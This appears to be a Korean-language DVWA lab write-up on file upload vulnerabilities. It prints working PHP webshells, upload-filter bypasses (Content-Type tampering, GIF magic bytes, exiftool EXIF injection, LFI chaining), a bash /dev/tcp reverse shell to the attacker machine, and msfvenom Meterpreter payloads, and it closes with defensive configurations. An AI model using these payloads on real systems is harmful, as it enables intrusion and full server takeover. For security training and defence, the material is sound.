



## 실습 환경

| 항목 | 내용 |
|---|---|
| 공격 머신 | Kali Linux — `192.168.0.10` |
| 대상 서버 | Ubuntu + DVWA — `192.168.0.30/DVWA/` |
| 주요 도구 | Burp Suite, Netcat, msfvenom, exiftool |

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A02:2025 – Security Misconfiguration** · **A06:2025 – Insecure Design** (결과적으로 A05 Injection/RCE) |
| CWE | CWE-434 (위험한 유형의 파일 업로드 제한 실패) |
| 영향 | 웹쉘·Reverse Shell 업로드 → **서버 완전 장악(RCE)**, 가장 파급력 큰 취약점 군 |
| 한 줄 핵심 | 업로드 파일의 **유형·내용·실행 위치**를 통제하지 못해 악성 스크립트가 서버에서 실행됨 |

> "무제한 파일 업로드(CWE-434)"는 OWASP Top 10:2025에서도 **단독 항목은 아니다.**  
> 검증 누락은 **A06 Insecure Design(설계 결함)**, 업로드 디렉터리에서 스크립트 실행이 허용되는 설정은 **A02 Security Misconfiguration(보안 설정 오류)**,  
> 최종 결과는 **RCE(A05 Injection)** 다. 즉 "설계+설정+실행" 세 단계 모두에서 막아야 한다.  
> (참고: 2025판에서 Security Misconfiguration은 A05→**A02**로, Insecure Design은 A04→**A06**으로 이동했다.)
{: .prompt-info }

---

## 1. File Upload 취약점 개요

**파일 업로드 취약점(File Upload Vulnerability)** 은 웹 애플리케이션이 제공하는 파일 업로드 기능을 악용하여, 악성 파일(WebShell 등)을 서버에 업로드한 뒤 직접 접근함으로써 서버에서 임의의 코드를 실행시키는 공격이다.

공격에 성공하면 **RCE(Remote Code Execution)** 로 서버를 완전히 장악할 수 있으며, 이는 웹 취약점 중 파급력이 가장 큰 축에 속한다.

### 1.1 공격 흐름



### 1.2 WebShell 종류

| 종류 | 예시 | 특징 |
|---|---|---|
| **One-liner** | `<?php system($_GET['cmd']); ?>` | 가볍고 단순, 탐지 쉬움 |
| **고급 WebShell** | c99, r57, p0wny-shell | 파일 관리·포트 스캔 기능 포함 |
| **Reverse Shell** | `exec("/bin/bash -c 'bash -i >& /dev/tcp/...'")` | 서버가 공격자에게 연결, 방화벽 우회 |

> 업로드된 WebShell은 웹 서버 프로세스 권한(www-data 등)으로 실행된다. 권한 상승(Privilege Escalation) 취약점과 연계하면 root 탈취도 가능하다.
{: .prompt-danger }

---

## 2. 검증 우회 기법

웹 애플리케이션은 악성 파일을 막기 위해 다양한 검증을 수행하지만, 각각의 우회 방법이 존재한다.

### 2.1 우회 기법 비교표

| 검증 방식 | 서버의 검사 대상 | 우회 방법 |
|---|---|---|
| **확장자 블랙리스트** | 파일명 끝 확장자 | `.php5`, `.phtml`, `.phar`, `.php3` 대체 확장자 |
| **이중 확장자** | 마지막 확장자만 확인 | `shell.jpg.php`, `shell.php.jpg` |
| **대소문자 무시** | 소문자 변환 후 비교 | `shell.PHP`, `shell.PhP` |
| **Null Byte** | 문자열 끝 인식 오류 | `shell.php%00.jpg` |
| **Content-Type** | 요청 헤더의 MIME 타입 | Burp Suite로 `image/jpeg`로 변조 |
| **Magic Bytes** | 파일 앞 시그니처 바이트 | GIF/JPEG 시그니처 뒤에 PHP 코드 삽입 |

### 2.2 확장자 검증 우회

PHP 확장자를 블랙리스트 방식으로만 차단할 경우, 서버 설정에 따라 다음 확장자가 PHP로 해석될 수 있다.

```
.php5   .phtml   .phar   .php3   .php4
.shtml  .pht     .pgif
```

### 2.3 Content-Type 우회

브라우저가 파일을 전송할 때 헤더에 `Content-Type`을 포함한다. 서버가 이 값만 검사한다면 Burp Suite로 변조하여 우회할 수 있다.

```http
# 원본 (PHP 업로드 시 브라우저가 전송하는 값)
Content-Type: application/x-php

# Burp Suite에서 변조
Content-Type: image/jpeg
```

> `Content-Type`은 클라이언트가 임의로 설정하는 값이다. 서버가 이 값만 신뢰하면 검증을 전혀 안 한 것과 다름없다.
{: .prompt-warning }

### 2.4 Magic Bytes(파일 시그니처) 우회

파일 첫 몇 바이트를 검사하는 경우, 이미지 시그니처를 파일 앞에 추가하여 우회한다.

| 포맷 | 시그니처 (Hex) | 문자열 |
|---|---|---|
| GIF | `47 49 46 38 39 61` | `GIF89a` |
| JPEG | `FF D8 FF` | — |
| PNG | `89 50 4E 47` | `‰PNG` |

```bash
# GIF 시그니처 + PHP 코드 조합
printf 'GIF89a<?php system($_GET["cmd"]); ?>' > shell.php.gif
```



---

## 3. DVWA 실습 — Security Level: Low

Low 레벨은 파일 확장자, Content-Type, 시그니처 검증이 **전혀 없다**. PHP 파일을 그대로 업로드할 수 있다.

### 3.0 레벨별 공격·방어 한눈에

| 레벨 | 서버 측 방어 | 공격(우회) 방안 | 방어 한계 |
|---|---|---|---|
| **Low** | 없음 | `shell.php` 그대로 업로드 → URL 직접 접근으로 RCE | 검증 자체가 없음 |
| **Medium** | `Content-Type`(MIME)만 검사 (예: `image/jpeg`) | Burp로 업로드 요청의 `Content-Type`을 `image/jpeg`로 위조 + 파일명은 `.php` | MIME은 클라이언트가 보내는 값이라 위조 가능 |
| **High** | 확장자 + **Magic Bytes(`getimagesize`)** 검사 | `GIF89a;` 시그니처를 앞에 붙이거나 exiftool로 이미지 메타데이터에 PHP 삽입 → `shell.php.jpg` + **LFI 연계** 실행 | 내용이 이미지처럼 보이면 통과 |
| **Impossible** | **확장자 화이트리스트 + 내용 재처리(이미지 재인코딩) + 랜덤 파일명 + Anti-CSRF 토큰** | 페이로드가 재인코딩 과정에서 제거되어 불가 | — (근본 방어) |

> 핵심: MIME(Medium)·시그니처(High)는 모두 위조·우회된다.  
> Impossible은 **화이트리스트 + 서버 측 이미지 재처리 + 업로드 폴더 스크립트 실행 차단**(8장)을 결합해 막는다.
{: .prompt-tip }

### 3.1 WebShell 파일 생성

```bash
# Kali에서 one-liner WebShell 생성
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

### 3.2 DVWA에서 파일 업로드

1. 브라우저에서 `http://192.168.0.30/DVWA/` 접속 후 로그인.
2. 좌측 메뉴 **File Upload** 클릭.
3. **Choose File** → `shell.php` 선택 → **Upload** 클릭.
4. 업로드 성공 시 다음 메시지와 함께 경로가 출력된다.

   ```
   ../../hackable/uploads/shell.php succesfully uploaded!
   ```

### 3.3 WebShell 실행 — 명령 실행

브라우저 주소창에 직접 URL을 입력하여 명령을 실행한다.

```
# 현재 실행 사용자 확인
http://192.168.0.30/DVWA/hackable/uploads/shell.php?cmd=id

# 시스템 사용자명 확인
http://192.168.0.30/DVWA/hackable/uploads/shell.php?cmd=whoami

# /etc/passwd 파일 읽기
http://192.168.0.30/DVWA/hackable/uploads/shell.php?cmd=cat+/etc/passwd

# 웹 루트 디렉토리 파일 목록 확인
http://192.168.0.30/DVWA/hackable/uploads/shell.php?cmd=ls+-la+/var/www/html
```

> 명령 실행 결과가 브라우저에 그대로 출력되면 RCE 성공이다.
{: .prompt-tip }

### 3.4 Reverse Shell로 업그레이드

One-liner WebShell을 발판 삼아 **Reverse Shell**을 획득하면 대화형 터미널을 얻을 수 있다.

**1단계: Kali에서 리스너 실행**

```bash
nc -lvnp 4444
```

**2단계: WebShell을 통해 Reverse Shell 실행 (URL 인코딩 필요)**

```
http://192.168.0.30/DVWA/hackable/uploads/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.0.10/4444+0>%261'
```

**3단계: Kali 터미널에서 연결 확인**

```
listening on [any] 4444 ...
connect to [192.168.0.10] from (UNKNOWN) [192.168.0.30] 49152
bash: no job control in this shell
www-data@ubuntu:/var/www/html/DVWA/hackable/uploads$
```

> Reverse Shell은 공격 대상 서버가 공격자에게 **먼저 연결**을 맺는다. 서버 측 아웃바운드 방화벽이 열려 있으면 일반 방화벽을 우회할 수 있다.
{: .prompt-danger }

---

## 4. DVWA 실습 — Security Level: Medium

Medium 레벨은 서버가 `Content-Type` 헤더를 검사하여 `image/jpeg`, `image/png` 등 이미지 타입만 허용한다. Burp Suite로 헤더를 변조하여 우회한다.

### 4.1 Content-Type 우회 (Burp Suite)

**1단계: Burp Suite Intercept 활성화**

1. Burp Suite를 실행하고 **Proxy > Intercept > ON** 설정.
2. 브라우저 프록시를 `127.0.0.1:8080`으로 설정.

**2단계: 파일 업로드 요청 가로채기**

1. DVWA File Upload 페이지에서 `shell.php` 선택 후 **Upload** 클릭.
2. Burp Suite에 다음과 같은 요청이 캡처된다.

   ```http
   POST /DVWA/vulnerabilities/upload/ HTTP/1.1
   Host: 192.168.0.30
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...

   ------WebKitFormBoundary...
   Content-Disposition: form-data; name="uploaded"; filename="shell.php"
   Content-Type: application/octet-stream

   <?php system($_GET["cmd"]); ?>
   ```

**3단계: Content-Type 변조**

Burp Suite에서 파일 파트의 `Content-Type` 값을 수정한다.

```http
# 변경 전
Content-Type: application/octet-stream

# 변경 후
Content-Type: image/jpeg
```

**4단계: Forward → 업로드 성공 확인**

- **Forward** 버튼 클릭 후 브라우저에서 업로드 성공 메시지 확인.
- 이후 Low 레벨과 동일하게 URL 직접 접근으로 명령 실행.

> Content-Type은 클라이언트가 임의로 설정하는 값이므로 서버 측에서 실제 파일 내용을 검사해야 한다.
{: .prompt-warning }

---

## 5. DVWA 실습 — Security Level: High

High 레벨은 파일의 실제 **Magic Bytes(파일 시그니처)** 를 검사하여 이미지 파일인지 확인한다. Content-Type 변조만으로는 우회가 불가능하며, 실제 파일 내용에 이미지 시그니처를 삽입해야 한다.

### 5.1 방법 1: GIF 시그니처 삽입

```bash
# GIF 시그니처(GIF89a)를 파일 앞에 추가하고 PHP 코드를 이어 붙임
printf 'GIF89a<?php system($_GET["cmd"]); ?>' > shell.php.gif
```

- 파일 검사 시 GIF로 인식되어 업로드 허용.
- 파일명이 `.php.gif`이므로 서버 설정에 따라 PHP로 실행될 수 있음.

### 5.2 방법 2: exiftool로 이미지 메타데이터에 PHP 코드 삽입

정상 JPEG 파일의 EXIF 주석 필드에 PHP 코드를 삽입하면 파일 시그니처 검사를 통과할 수 있다.

```bash
# 정상 JPEG 이미지에 PHP 코드를 주석(Comment)으로 삽입
exiftool -Comment='<?php system($_GET["cmd"]); ?>' legitimate.jpg -o shell.jpg.php
```

- `shell.jpg.php` 파일은 JPEG 시그니처를 가지므로 Magic Bytes 검사 통과.
- 확장자가 `.php`이면 Apache/Nginx가 PHP로 실행.

### 5.3 LFI(파일 인클루전)와 연계

High 레벨에서 확장자 검사가 엄격하여 `.php` 확장자 업로드 자체가 차단될 경우, **LFI(Local File Inclusion)** 취약점과 연계하여 실행할 수 있다.

```
# 업로드된 shell.gif를 LFI 취약점으로 include하여 PHP 코드 실행
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=../../hackable/uploads/shell.gif
```

> GIF 시그니처가 포함된 파일이더라도 PHP include/require로 로드되면 PHP 코드가 실행된다.
{: .prompt-danger }

---

## 5-1. Security Level: Impossible (방어 성공)

Impossible 레벨은 여러 방어를 **동시에** 적용한다.

1. **확장자 화이트리스트** — `jpg`,`jpeg`,`png` 만 허용(대소문자 정규화 포함).
2. **내용 검증 + 재처리** — `getimagesize()`로 실제 이미지인지 확인하고, **`imagecreatefromjpeg()` → 재인코딩**으로 메타데이터(삽입된 PHP)를 제거한다.
3. **랜덤 파일명** — 업로드 파일명을 서버가 난수로 바꿔 원본 확장자/경로 추측을 차단.
4. **Anti-CSRF 토큰** — 자동화 업로드 위조 차단.

```php
// Impossible 핵심: 이미지를 재인코딩해 삽입 코드 제거
$uploaded = imagecreatefromjpeg($tmp);   // 이미지가 아니면 실패
imagejpeg($uploaded, $target, 100);      // 재인코딩 → EXIF/주석 내 PHP 소멸
```

exiftool로 EXIF에 PHP를 심어도 **재인코딩 과정에서 주석이 사라지므로** 실행 코드가 남지 않는다.  
여기에 **업로드 디렉터리에서 PHP 실행 자체를 차단**(8.2 `.htaccess`)하면 LFI 연계까지 막힌다.

---

## 6. 고급 실습 — msfvenom PHP Meterpreter

단순 WebShell 대신 **Metasploit Meterpreter** 페이로드를 사용하면 파일 시스템 탐색, 권한 상승, 피벗팅 등 고급 기능을 활용할 수 있다.

### 6.1 PHP Meterpreter 페이로드 생성

```bash
# PHP Meterpreter Reverse TCP 페이로드 생성
msfvenom -p php/meterpreter/reverse_tcp \
         LHOST=192.168.0.10 \
         LPORT=4444 \
         -f raw > meterpreter.php
```

### 6.2 Metasploit 리스너 실행

```bash
# Metasploit 콘솔에서 핸들러 실행
msfconsole -x "use exploit/multi/handler; \
               set payload php/meterpreter/reverse_tcp; \
               set LHOST 192.168.0.10; \
               set LPORT 4444; \
               run"
```

### 6.3 페이로드 업로드 및 실행

1. `meterpreter.php` 파일을 DVWA File Upload에 업로드.
2. 브라우저로 업로드된 URL 접근: `http://192.168.0.30/DVWA/hackable/uploads/meterpreter.php`
3. Metasploit 콘솔에서 Meterpreter 세션 확인.

```
[*] Sending stage (39927 bytes) to 192.168.0.30
[*] Meterpreter session 1 opened (192.168.0.10:4444 -> 192.168.0.30:49200)

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 5.15.0 #1 SMP (Linux)
meterpreter > getuid
Server username: www-data
```

### 6.4 주요 Meterpreter 명령

| 명령 | 설명 |
|---|---|
| `sysinfo` | 시스템 정보 확인 |
| `getuid` | 현재 사용자 확인 |
| `ls`, `cd`, `pwd` | 파일 시스템 탐색 |
| `download <파일>` | 파일 다운로드 |
| `upload <파일>` | 파일 업로드 |
| `shell` | 대화형 쉘 획득 |
| `run post/multi/recon/local_exploit_suggester` | 권한 상승 취약점 탐색 |

---

## 7. 전체 공격 흐름 요약



---

## 8. 방어 방법

### 8.1 핵심 방어 기법

| 방어 기법 | 설명 |
|---|---|
| **화이트리스트 확장자 검증** | `.jpg`, `.png`, `.gif` 등 허용 목록만 수락 |
| **서버 측 Content-Type 재검증** | 클라이언트 헤더 불신, 실제 파일 내용으로 재확인 |
| **Magic Bytes 검사** | PHP GD 라이브러리 등으로 실제 이미지 여부 확인 |
| **파일명 재생성** | UUID + 허용 확장자만 보존 (원본 파일명 폐기) |
| **업로드 디렉토리 PHP 실행 금지** | `.htaccess` 또는 Apache/Nginx 설정으로 스크립트 실행 차단 |
| **웹 루트 외부 저장** | `/var/www/html` 밖에 저장 후 다운로드 전용 스크립트로 제공 |
| **CDN/오브젝트 스토리지 분리** | S3, GCS 등에 저장하여 실행 환경과 완전히 분리 |

### 8.2 업로드 디렉토리 PHP 실행 금지 (.htaccess)

```apache
# 업로드 디렉토리 PHP 실행 금지
<Directory /var/www/html/uploads>
    php_flag engine off
    AddType text/plain .php .php5 .phtml .phar
</Directory>
```

### 8.3 서버 측 이미지 재처리 (PHP 예시)

파일을 업로드받은 뒤 GD 라이브러리로 **재렌더링**하면 파일 안에 삽입된 PHP 코드가 제거된다.

```php
<?php
// 업로드된 이미지를 GD로 재처리하여 임베드된 코드 제거
$source = $_FILES['uploaded']['tmp_name'];
$image = imagecreatefromjpeg($source);
$output_path = '/var/uploads/' . uniqid() . '.jpg';
imagejpeg($image, $output_path, 85);
imagedestroy($image);
?>
```

> 재처리는 EXIF 데이터(메타데이터에 삽입된 PHP 코드 포함)를 제거하는 효과도 있다.
{: .prompt-tip }

### 8.4 Nginx 업로드 디렉토리 설정

```nginx
# Nginx: uploads 디렉토리에서 PHP 실행 차단
location /uploads {
    location ~ \.php$ {
        deny all;
    }
}
```

---

## 9. 핵심 정리

1. **파일 업로드 취약점**은 악성 파일을 서버에 업로드하고 직접 접근하여 RCE를 유발하는 공격이다.
2. **Low**: 검증이 없어 PHP 파일을 그대로 업로드하고 URL로 바로 실행 가능하다.
3. **Medium**: Content-Type 헤더만 검사하므로 Burp Suite로 `image/jpeg`로 변조하여 우회한다.
4. **High**: Magic Bytes를 검사하므로 `GIF89a` 시그니처를 삽입하거나 exiftool로 EXIF에 PHP 코드를 넣어 우회한다.
5. WebShell 획득 후 **Reverse Shell** 또는 **Meterpreter**로 업그레이드하면 대화형 접근이 가능하다.
6. 방어의 핵심은 **화이트리스트 확장자 + 파일명 재생성 + 업로드 디렉토리 실행 금지 + 웹 루트 외부 저장**의 조합이다.
